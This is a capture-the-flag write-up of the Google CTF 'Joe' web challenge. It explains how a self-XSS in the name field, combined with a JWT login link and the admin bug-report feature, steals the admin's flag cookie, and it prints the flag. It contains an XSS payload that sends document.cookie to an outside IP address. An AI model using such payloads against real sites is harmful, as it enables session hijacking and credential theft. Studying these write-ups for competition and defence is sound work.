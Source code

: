 ```yaml
---
published: true
---
```

## Joe Challenge writeup: Google ctf

Joe was the first of five puzzles in the Web category, and the only one classified as Easy. In essence, the challenge entailed the following:

_If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag:_

[Challenge url](https://joe.web.ctfcompetition.com)

![Joe_screenshot.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Joe_screenshot.png)

Initial reconnaissance led me to the following features.


- Name-changing
- Session and Login handling
- Submitting bug report to admin.

Another interesting point was that if we try to use the link provided for admin login then we getting the following result.

![joe_admin_login.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_admin_login.png)




As we can see in the above responce that the admin have a cookie named as flag and it's required for logging in as an admin. Now we just need to figure out a way to steal the admin cookie.

Cookie theft is often facilitated through XSS (cross-site scripting), so I asked Joe to let me rename you to an injection payload:

**<svg/onload=alert(document.domain)>**


Refreshing the page led to successful self XSS
![joe_test.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_test.png)


But this payload is executing in self context a.k.a. "selfxss".Now I proceeded to focus on leveraging this against the "administrator" user. Reporting a bug to admin seems an intersting attack surface for this purpose. we can use this feature to report a bug by supplying a valid report URL (prefixed with HTTP/S) and CAPTCHA response.


But after trying a few times I am still not able to exploit this feature. So i decided to take a look on the login feature. where i found [JSON Web Token](https://jwt.io/) parameter in a login request:



![Screenshot from 2017-07-03 15-57-08.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Screenshot%20from%202017-07-03%2015-57-08.png)




**_JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object._**



I found that the above URL could be used to log into my account with a valid JWT, and proceeded to change Joe's name to the following payload

```<script>img = new Image(); img.src="https://139.59.74.204/cookie?q="+document.cookie;alert("done");//</script>```


![selfxss.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/selfxss.png)



As you can see in above image that the payload executed successfully. Now all i need is to issue a bug report for admin and sent my tokenised URL to Joe, but this url was rejected due to excess length.



![joe_url_too_big.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_url_too_big.png)



So i used google's link shortner service and sent the new url as a bug report. Which is get accepted successfully.



![Screenshot from 2017-07-03 15-59-36.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Screenshot%20from%202017-07-03%2015-59-36.png)



Now all i needed is to check the access log of apache that is running on my VPS.


![joe_flag.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_flag.png)



And this way i got the access of admin's flag cookie.

		flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!};
